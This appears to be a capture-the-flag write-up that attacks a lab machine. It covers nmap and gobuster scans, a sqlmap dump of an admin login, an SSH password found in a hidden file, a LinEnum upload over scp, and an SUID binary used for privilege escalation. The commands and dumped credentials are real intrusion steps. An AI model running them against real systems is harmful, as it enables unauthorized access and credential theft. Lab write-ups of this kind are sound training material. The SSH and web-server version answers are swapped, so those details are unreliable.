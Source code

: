 # BufferOverflow Basics i guess

####
I.P - 10.10.228.221
####

## nMAP results:


# 1. how many ports are open?

2

# 2. What is the http-title of the web server?

Apache2 Ubuntu Default Page: It works

# 3. What version is the ssh service?

Apache/2.4.18

# 4. What is the version of the web server?

OpenSSH 7.2p2 Ubuntu 4ubuntu2.8

### using gobuster with the following cmd:

gobuster dir -u 10.10.228.221 -w /usr/share/wordlists/dirbuster-ng/wordlists/big.txt -x "php,txt,html"

what is the important file?

administrator.php

### using sqlmap (sqlinjection) 

using the cmd:

sqlmap -u http://10.10.228.221/administrator.php --form --dump

found that username is vulnerable to sqlinjection:

found the username and password:
+----------+------------+
| username | password   |
+----------+------------+
| pingudad | secretpass |
+----------+------------+

### found the shell after logging in as admin:

ran ls to find how many files are there in the current directory.
3


ran /home to find if pingu is still there in the server
yes

ssh password:

took a while and referred john hammond's vid to find out that it is saved in:
/var/hidden/pass

password is:pinguapingu

successfully installed linEnum.sh in: /usr/share/linenum

used cmd : scp /usr/share/linenum/linEnum.sh pingu@10.10.228.221:/tmp to upload the linenum file

ssh into the machine and ran:
chmod +x /tmp/LinEnum.sh
/tmp/LinEnum.sh

found a file with suid:
/opt/secret/root

found the hash actually i didnt and got the password:
love2fish
